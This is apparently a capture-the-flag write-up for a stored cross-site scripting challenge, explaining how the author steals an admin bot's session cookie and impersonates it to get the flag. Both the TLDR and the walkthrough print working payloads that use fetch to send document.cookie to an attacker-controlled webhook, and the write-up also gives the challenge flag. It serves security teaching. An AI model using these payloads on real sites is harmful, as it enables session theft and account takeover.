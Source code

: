 # GCB-August-2023 Writeup

A basic XSS challenge that requires you to steal an admins cookie and login as them to retrieve the flag.

## TLDR
A solve script has been provided at [solve.py](./solve.py).
1. Register an account and login
2. Setup a webhook to catch the admin bot's cookie
3. The "content" field is vulnerable to a [stored cross-site scripting attack](https://owasp.org/www-community/attacks/xss/)
4. You can verify this with: `<script>alert(1)</script>`, alternatively a safer payload would be: `<img src=x onerror=alert(1)>`
5. Force the admin bot to send a GET request to your webhook with their cookie: `<img src=x onerror=\"fetch('{webhook_url}?'+document.cookie)>`
6. Steal their cookie and impersonate them to get the flag via: `/flag`
7. Flag: GCB23{xsS_1s_4_5tr0ng_0n3_bb1607482bc177d5}

![solve.py](https://i.imgur.com/cxHfWM8.jpeg)

## Detailed Walkthrough

The website first brings us to the login page. On the nav-bar, you can see that we can register an account to login... so why not.

![](https://i.imgur.com/ANgVOGG.png)

After registering, we will be redirected to the login page again so simply just login.
We will be able to access the function of the website.

![](https://i.imgur.com/dINMDnc.png)

As seen, the platform enables us to craft and share posts. Furthermore, it is explicitly mentioned that an admin bot reviews all posts before approval. With this information, we are able to deduce that every once in a while (time not stated), there will be a user (in this case, a bot) with admin privileges, will view the posts that we create.

What is the first web app vulnerability you think of when you see textboxes? Cross-site Scripting right (XSS)????

Let's post special characters to see if the website filter any of them.

![](https://i.imgur.com/63JfrZF.png)

After submitting the post, we can view the post and verify that the website does not filter out any of the special characters that are use for XSS.

![](https://i.imgur.com/fWezaRC.png)

Now that we know there are no filtering, let's try to do a simple alert message.

![](https://i.imgur.com/WLAoBzS.png)

After submitting the post, an alert popped up. Now, we can confirm that this webpage is vulnerable to Stored XSS.

![](https://i.imgur.com/Ly5z8zI.png)

So, let's gather all the information we have currently.

1.  There is an admin bot that will look at our post on a regular time interval
2.  This webpage is vulnerable to Stored XSS

Since the adminbot checks the posts individually, this means that what ever payload we put in our XSS, the admin bot will execute it when it is checking.

However, up until now, the posts I have created still states that the posts have yet to been approve

![](https://i.imgur.com/4egWYQ3.png)

Before we craft the payload, let's take a look at the backend to have a deeper understanding on whats going on

![](https://i.imgur.com/fjCerLQ.png)

As you can see from the image above, on line 26, we can see that there is a filter for the content box
(Whenever there is a \\r\\n, \\r, or \\n type of line break in the content box, it will be replace with the HTML <br> tag)

This filter will not affect much for our payload.

By exploring the DevTools even further, we can see that the website uses cookie to authenticate us. hmm... if only we can get the cookie with admin privilege

![](https://i.imgur.com/RyEb6pN.png)

To help us get the admin-bot cookie using stored XSS on the post page, we will be using the open source website, webhook, to help us with the payload

![](https://i.imgur.com/ZZgLnsz.png)

After entering webhook, do copy your unique url

![](https://i.imgur.com/8c5Y8gL.png)

This is the payload I will be using "<script>fetch("webhook_url_here?c="+document.cookie, {method: "GET"})</script>"
(Do replace your webhook's unique url with webhook_url_here)

Let's break down the payload

- We will be using the 'fetch' API to make the HTTP GET request to the webhook url
- The document.cookie will be appended to it as well

This payload will send a GET request to the webhook URL and have the user's cookie (who is viewing the post) appended on it

Let's post this and let the admin bot view the post so we can steal it's cookie

![](https://i.imgur.com/lDfMXte.png)

After we submit the post, there should be an instant request with a token shown below. However, that is not the admin bot's cookie, it is ours.
(You can compare it with your cookie to verify)

![](https://i.imgur.com/Oa04dLG.png)

After waiting for a few more seconds, a new request was made

![](https://i.imgur.com/L6ua3Sl.png)

The cookie is different from our cookie... why not we try to login as them

Simply go back to your DevTools, go to application tab, and change your cookie with the stolen cookie

![](https://i.imgur.com/zOPLzeW.png)

Now, go back to the webpage and reload it. As you can see, we are now admin as it says 'Welcome adminbot'. Also, there is a 'Get Flag' option on the nav-bar

![](https://i.imgur.com/Dj6luaT.png)

Click on the 'Get Flag' option and you have found the flag!

![](https://i.imgur.com/WByW5zj.png)

`Flag: GCB23{xsS_1s_4_5tr0ng_0n3_bb1607482bc177d5}`

Hope you have learnt something new from GCB!!